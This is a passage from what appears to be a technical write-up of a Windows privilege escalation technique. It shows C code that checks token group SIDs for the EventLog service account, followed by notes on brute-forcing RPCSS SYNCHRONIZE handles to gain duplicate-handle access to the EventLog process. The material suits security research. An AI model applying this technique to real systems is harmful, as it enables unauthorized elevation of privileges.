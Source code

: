 ```c
		WCHAR domainname[MAX_NAME] = { 0x00 };
		SID_NAME_USE sidtype = { 0x00 };
		DWORD dwSizeUserName = sizeof(username);
		DWORD dwSizeDomainName = sizeof(domainname);


		dwSuccess = ConvertSidToStringSidW(pSID, &psidString);
		if (dwSuccess == FAIL) {
			continue;
		}
		if (psidString == NULL) {
			printf("[-] Got no SID\n");
			continue;
		}

		

		dwSuccess = LookupAccountSid(NULL, pSID, username, &dwSizeUserName, domainname, &dwSizeDomainName, &sidtype);
		if (dwSuccess == FAIL) {
			if (ERROR_NONE_MAPPED != GetLastError()) {
				//Mapping is some times not possible
				printf("[-] Could not Lookup SID\n");
			}		
			continue;
		}
		dwSuccess = FAIL;
		if (lstrcmpW(username, L"EventLog") == 0) {
			dwSuccess = SUCCESS;
			goto exit;
		}

	}

exit:
	if (pTokenGroups) {
		VirtualFree(pTokenGroups, 0, MEM_RELEASE);
	}
	
	return dwSuccess;


}
```


After a lot of tries we have an valid EventLog process token and we are able to elevate a *SYNCHRONIZE* handle to *PROCESS_QUERY_INFORMATION* AND *PROCESS_DUP_HANDLE* if we get the right *SYNCHRONIZE* handle of the EventLog Process.


For the bruteforce we either have to duplicate all RPCSs *SYNCHRONIZE* handles at once or step through them one by one.
